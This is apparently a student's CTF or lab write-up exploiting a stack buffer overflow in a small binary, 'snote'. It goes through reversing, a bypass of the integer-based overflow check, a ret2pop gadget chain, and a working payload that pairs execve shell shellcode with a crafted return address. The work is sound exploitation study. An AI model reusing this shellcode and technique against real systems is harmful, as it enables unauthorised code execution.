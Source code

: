 ﻿# Christa Write Up
### by Tilden Jackson (thjackso)
## Content
* [Binary Reversing](#reversing)
* [Vulnerability Details](#exploit-details)
* [Working Exploit](#working-exploit)

## Reversing
This code `./snote` has 2 main functions to consider: `main, note`. We start by running the code to take a look at what it does:
\
![This function takes two arguments in the command line: subject and note.](https://i.postimg.cc/m2C2S9xK/FirstRun.png)

Looking deeper at the binary we can get a deeper look at how it works:
![Main function disassembled](https://i.postimg.cc/gcRW9PMZ/main.png)
The main function stores `subject@argv[1]` in `-0x8(rbp)` and `note@argv[2]` in `-0x10(rbp)` and then sets up a call to `<note>`

Looking at `<note>` we see:
![Disassembled Note](https://i.postimg.cc/VkhGLJvL/note.png)

The function `<note>` takes 4 arguments as shown in the pseudocode bellow. The arguments subject is stored at %rdx and note is stored at %rcx. Note stores these at subject = `-0xa0(rbp)` and note = `-0xa8(rbp)` respectively. It then sets up a function call to `strcpy(buf, note)` with buffer at `-0x90(rbp)`. The function then checks that hour and minute (the first two args passed in to note) are not corrupted by checking that hour*minute <= 1440 (24*60). It then goes through a whole process of printing stuff out as was displayed.

---
A pseudocode of this binary would look like: 
```
int main(int argc,char const *argv[]){
	const char* subject = argv[1]; //@-0x8(rbp)
	const char* note = argv[2]; //@-0x10(rbp)

	if (argc != 3){
		puts(...);
		return -1;
	}

	time_t x;
	time_t local = localtime(time(&x));

	note(local+8, local+4, subject, note);
	return 0;
}

int note(int hour, int minute, const char* subject, const char* note){
	char buf[0x88]; //@-0x90(rbp)
	int hour = hour; //@-0x8(rbp)
	int minute = minute; //@-0x4(rbp)

	strcpy(buf, note);
	if (hour * minute <= 0x5a0){
		puts("*buffer overflow is detected!");
		exit(1);
	}

	printf("*Time: %d:%d\n",hour,minute);
	printf("*Subject: %s by CTO\n", subject);
	printf("*Note: %s\n", buf);
	
	return 0;
}
```
\
**Vulnerabilities**
We can exploit the `strcpy` function with a buffer overflow easily. However, the "stack canary"-esque buffer overflow check need to be resolved. We can easily do this by making the result negative because the multiplication is signed integer multiplication. I will do `-1 * -1` since this resolved to 1 anyways. 

Another problem is that we have ASLR enabled although GOT is not randomized, so we will have to utilize ret2pop or another method that is not stopped by ASLR.

## Exploit Details

We need to execute the shellcode that we will provide through the buffer. In order to do this we must juggle the stack to call the location of our input with the shell code. We must also subvert detection of buffer overflow by filling minute and hour with \xff so that they end up being -1.

Normally our stack diagram when we are executing note of the binary looks like
```
| addr rel. rbp in func | val|
------------------------------ (start <main> stack)
| -0x8  | argv[1] : subject  | 
------------------------------
| -0x10 | argv[2] : note     |           
------------------------------
| -0x18 | time               |
------------------------------
| -0x20 | localtime          |
------------------------------
| -0x24 | argc               |
------------------------------
| -0x30 | argv               |
------------------------------ (end <main> stack)
| +0x08 | return address     |
------------------------------
| +0x00 | old(rbp)           | 
------------------------------ (start <note> stack)
| -0x04  | minute            |
------------------------------
| -0x08 | hour               |           
------------------------------
|       |                    |
| -0x90 | buf[0x88]          |
|       |                    |
------------------------------
| -0x94 | hour               |
------------------------------
| -0x98 | minute             |
------------------------------
| -0xa0 | argv[1] : subject  |
------------------------------
| -0xa8 | argv[2] : note     |
------------------------------
| -0xb0 | stack end          |
------------------------------
```

We fill the buf with our shellcode at the base and then pad it so that our overflow of `\xff` fills hour and minute and then we will inject our own return address which will point to an instruction that has pop four times in a row and then a return in order to juggle our stack pointer up to the argv[2] spot in main. After the juggle, our rsp will point at the address of `argv[2]: note` saved by main which will then be called to execute our shell code in our input.
```
| addr rel. rbp in func | val|
------------------------------ (start <main> stack)
| -0x8  | argv[1] : subject  | 
------------------------------
| -0x10 | argv[2] : note     |           
------------------------------
| -0x18 | time               |
------------------------------
| -0x20 | localtime          |
------------------------------
| -0x24 | argc               |
------------------------------
| -0x30 | argv               |
------------------------------ (end <main> stack)
| +0x08 | 0x401413           | overflowed return address
|       | = pop x 4 + ret    |
------------------------------
| +0x00 | aaaaaaaa           | old(rbp)
------------------------------ (start <note> stack)
| -0x04 | 0xff ff ff ff = -1 | minute
------------------------------
| -0x08 | 0xff ff ff ff = -1 | hour    
------------------------------
|       |                    |
| -0x90 | shellcode + padding| buf[0x88]
|       |                    |
------------------------------
| -0x94 | hour               |
------------------------------
| -0x98 | minute             |
------------------------------
| -0xa0 | argv[1] : subject  |
------------------------------
| -0xa8 | argv[2] : note     |
------------------------------
| -0xb0 | stack end          |
------------------------------
```

These 4 pop instructions followed by a ret is able to be found in the `snote` binary so it is not randomized  (I found it using ropper). The following is what it looks like in the binary disassembly:
![4 pop instructions in binary](https://i.postimg.cc/pTHBpzHx/popx4.png)
## Working Exploit
The exploit is as we described and our alice.txt looks like this: `[b"ret2popx4", b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+b"\xff"*0x7d+b"\x14\x13\x40"]`

As input to the binary we would have:
```
$./snote ret2popx4 `python2 -c 'print(b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+b"\xff"*0x7d+b"\x14\x13\x40")'`

Where our shellcode is: b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
```

\
To check we run this command on the terminal:
![Exploit Result](https://i.postimg.cc/HWPBtJ00/exploit.png)
